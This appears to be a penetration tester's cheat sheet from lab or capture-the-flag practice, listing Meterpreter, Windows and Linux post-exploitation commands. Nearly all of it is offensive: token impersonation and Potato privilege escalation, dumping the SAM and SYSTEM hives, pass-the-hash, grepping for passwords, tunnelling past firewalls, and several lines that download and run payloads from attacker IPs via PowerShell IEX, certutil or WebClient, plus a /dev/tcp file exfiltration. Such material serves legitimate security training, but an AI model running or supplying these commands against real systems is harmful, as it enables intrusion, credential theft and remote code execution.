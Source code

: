 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Run as NTAuth/System from local admin
```
PsExec.exe -i -s %SystemRoot%\System32\cmd.exe
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

### Sniffing
```
ssh 10.10.14.3@10.10.10.119 "tcpdump -i any -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

### port forward
Attacker to victim
```
ssh -L attackerport:127.0.0.1:victimport user@domain
```
Change your ssh port to bypass firewall
```
sudo gedit /etc/ssh/sshd_config
```
Victim to attacker
```
ssh -R attackerport:127.0.0.1:victimport user@attacker
```
Windows victim to att
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw kali -R 192.168.119.199:1234:127.0.0.1:8080 -p 80 192.168.119.199
plink.exe -ssh -l kali -pw kali -R 192.168.119.199:1234:127.0.0.1:8080 -P 80 192.168.119.199
```
Dynamic
```
ssh -v -N -D 9050 sean@10.11.1.251
sudo proxychains nmap -T4 -p- -sT -Pn 10.1.1.27
```
nfs tunneling
https://biowiki.org/wiki/index.php/Mounting_NFSThrough_SSHTunnel

### Move file
```
cat file > /dev/tcp/10.10.14.3/1234
```

### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
